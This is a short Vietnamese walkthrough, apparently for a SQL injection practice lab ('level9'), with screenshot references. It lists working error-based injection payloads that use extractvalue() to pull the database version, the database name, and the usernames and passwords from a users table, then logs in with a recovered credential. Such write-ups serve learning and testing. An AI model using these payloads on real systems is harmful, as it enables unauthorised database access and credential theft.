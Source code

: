 ## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 8-9/5/2022

- Đầu tiên, ta thử tiêm <code>alo'</code> để kiểm tra thông báo lỗi.
  
  ![CHESSE](img/43.png)

- Ta thử dùng union <code>' union select 1,2#</code>. Vẫn có thông báo lỗi xuất hiện.
  
  ![CHESSE](img/44.png)

- Lần này, ta sẽ sử dụng hàm extractvalue() để hỗ trợ tấn công.
- Ta dùng <code>' or extractvalue(0x0a,concat(0x0a,(select version()))) or '</code> để kiêm tra phiên bản database.
  
  ![CHESSE](img/45.png)

- Tiếp theo, để có được tên database ta dùng <code>' or extractvalue(0x0a,concat(0x0a,(select database()))) or '</code>.
  
  ![CHESSE](img/46.png)

- Vì đã biết được tên table, nên ta sẽ bỏ qua bước tìm tên table để tìm username với <code>' or extractvalue(0x0a,concat(0x0a,(select group_concat(username) from level9_users))) or '</code>.
  
  ![CHESSE](img/47.png)

- Tương tự cho password với <code>' or extractvalue(0x0a,concat(0x0a,(select group_concat(password) from level9_users))) or '</code>.
  
  ![CHESSE](img/48.png)

- Ta thử đăng nhập với username: <code>TheBlueFlower</code> và password: <code>this_oassword_is_SEC//Ure.promi!</code>.
  
  ![CHESSE](img/49.png)

